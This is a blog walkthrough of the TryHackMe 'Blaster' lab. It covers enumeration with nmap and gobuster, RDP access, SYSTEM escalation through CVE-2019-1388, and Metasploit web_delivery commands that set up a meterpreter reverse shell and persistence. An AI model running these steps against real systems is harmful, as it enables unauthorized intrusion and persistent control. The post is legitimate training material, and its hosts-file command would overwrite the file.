 ```yaml
---
layout: post
title: Blaster – Try Hack Me
subtitle: Walkthrough
tags: [active,directory,windows]
---
```


Blaster presents us with a Windows basic where we can put in practice from interesting concepts. 

Learning Objectives:

* Diretory Bruteforcing
* RDP
* Priviledge Escalation
* Persistence Mechanisms 



[Challenge](https://tryhackme.com/room/blaster)

## Task 1

Initiate the VPN connection and deploy the machine

## Task 2 -> Enumeration 

We start by adding the IP address of our machine to the /etc/hosts

~~~
echo "10.10.92.243 blast" > /etc/hosts
~~~

Nmap scan to discover what we are working with

**Note:** We are using flag '-Pn' to skip host discovery. If you try using ping you might have run into troubles for the machine to answer you.

~~~
nmap -Pn -sV -sC -T5 blast
~~~

![nmap](/img/2020-04-30-blast/nmap.png)

Looking at the webserver we see the default IIS web page.

![iis](/img/2020-04-30-blast/iis.png)

With gobuster we can try to find some endpoints using a basic Kali wordlist.

~~~
gobuster dir -u http://10.10.92.243/ -w /usr/share/wordlists/dirbuster/directory-list-1.0.txt
~~~

![gobuster](/img/2020-04-30-blast/gobuster.png)

Once gobuster returns an endpoint and we have a look at it, we find this post full of interesting information.

![wade](/img/2020-04-30-blast/wade.png)

After a quick search on [fandom](https://readyplayerone.fandom.com/wiki/Wade_Watts), we find the name of Wade's avatar.  
The next step is to log into the machine using Microsoft Remote Desktop as suggested we will use Remmina for this. We are using RDP as a protocol 'blast' for the IP.  
Once inside the machine open the 'user.txt' file.

~~~
apt install remmina
remmina &
~~~

![rdp](/img/2020-04-30-blast/rdp.png)

## Task 3 -> Breaching the Control Room

Having a quick look at the machine we notice that the Recycle Bin is not empty and has a program inside called "hhupd".  
Another interesting place to look is the browser history.

![cve](/img/2020-04-30-blast/cve.png)

We find a nist webpage containing the 'CVE-2019-1388' as a title. After a quick search on what this CVE is about we can exploit. This [proof of concept](https://github.com/jas502n/CVE-2019-1388) even though it is not in English it is easy to understand.  
Let's begin the exploit, start by running the found program 'hhupd' as Administrator.  

![details](/img/2020-04-30-blast/details.png)
![site](/img/2020-04-30-blast/site.png)

By clicking  on the link, a new process owned by nt authority\system will be started. Simply close the program and in the browser you must save the webpage.

![save](/img/2020-04-30-blast/save.png)

We are prompt with the following saving page. Either search for the C:\Windows\System32 and find the cmd or in the drop down menu select the cmd.  
A quick 'whoami' shows that we are still nt authority\system having complete control of the system.

![save](/img/2020-04-30-blast/save.png)

And now we are ready to open the flag file in the Administrator directory.

![flag](/img/2020-04-30-blast/flag.png)

## Task 4 -> Adoption into the Collective

The last task is to establish persistence in the system. We start Metasploit, use the module specified and have a quick look at the options required.

~~~
msfconsole -q
use exploit/multi/script/web_delivery
options
~~~

![msf1](/img/2020-04-30-blast/msf1.png)

Now we need to set the options. Start with setting target to PSH, lhost blast and lport to any port that is not being used.  
Finally, set the payload to the specified one.

~~~
show targets
set target 2
set lhost blast
set lport 3389
set payload windows/meterpreter/reverse_http
~~~

![msf2](/img/2020-04-30-blast/msf2.png)

Simply run the module.

~~~
run -j
~~~



![msf3](/img/2020-04-30-blast/msf3.png)

Run the command on the compromised machine and a reverse shell will spawn in a new Metasploit session.  
Using Metasploit we can look at persistence mechanisms using the following command. 

~~~
run persistence -X
~~~

![msf4](/img/2020-04-30-blast/msf4.png)

Hope you enjoyed this guide.
